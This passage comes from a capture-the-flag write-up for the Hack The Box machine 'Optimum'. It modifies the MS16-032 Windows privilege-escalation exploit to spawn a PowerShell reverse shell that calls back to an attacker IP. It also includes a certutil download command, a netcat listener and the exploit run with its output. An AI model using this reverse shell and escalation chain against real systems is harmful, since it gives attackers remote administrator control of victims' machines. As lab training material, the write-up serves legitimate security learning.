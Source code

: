 To solve this problem, we need to modify the exploit script to send a reverse shell payload instead of a pop-up `cmd.exe` window.

**Go to line 330, copy and paste the following PowerShell code:**
```powershell
        # LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
		# $CallResult = [Advapi32]::CreateProcessWithLogonW(
		# 	"user", "domain", "pass",
		# 	0x00000002, "C:\Windows\System32\cmd.exe", "",
		# 	0x00000004, $null, $GetCurrentPath,
		# 	[ref]$StartupInfo, [ref]$ProcessInfo)

		# Modified to create a Powershell reverse shell 
		$CallResult = [Advapi32]::CreateProcessWithLogonW(
			"user", "domain", "pass",
			0x00000002, 
			'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe', 
			'-NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.8\",53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"',
			0x00000004, $null, $GetCurrentPath,
			[ref]$StartupInfo, [ref]$ProcessInfo)
```

> Note: Remember to change `New-Object System.Net.Sockets.TCPClient(\"10.10.14.8\",53)` to your's attacker machine's IP address.

- **Transfer the PowerShell exploit script to the target machine:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:37:51(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
C:\Users\kostas\Desktop>certutil -urlcache -split -f http://10.10.14.8/MS16-032.ps1
[...]
```

- **Setup a netcat listener on port that you just set in the modified exploit script:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:37:47(HKT)]
└> rlwrap -cAr nc -lvnp 53 
listening on [any] 53 ...
```

- **Run the exploit:**

```shell
C:\Users\kostas\Desktop>powershell -ExecutionPolicy ByPass -command "& { . C:\Users\kostas\Desktop\MS16-032.ps1; Invoke-MS16-032 }"
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1388

[*] Sniffing out privileged impersonation token..

```